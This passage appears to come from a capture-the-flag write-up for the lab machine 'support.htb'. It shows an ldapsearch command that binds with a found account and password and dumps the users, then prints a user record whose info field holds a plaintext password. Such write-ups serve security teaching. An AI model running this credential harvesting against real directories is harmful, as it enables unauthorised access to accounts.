 ### LDAP Enumeration

We will get all the user details using ldapsearch:

```bash
ldapsearch -H ldap://10.10.11.174 \
  -D "ldap@support.htb" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
  -b "DC=support,DC=htb" "(objectClass=user)" > ldapUserOutput.txt
```

One thing particularly of interest is the info field of Support user:

```bash
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 9
codePage: 0
countryCode: 0
badPasswordTime: 134007671742530909
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```
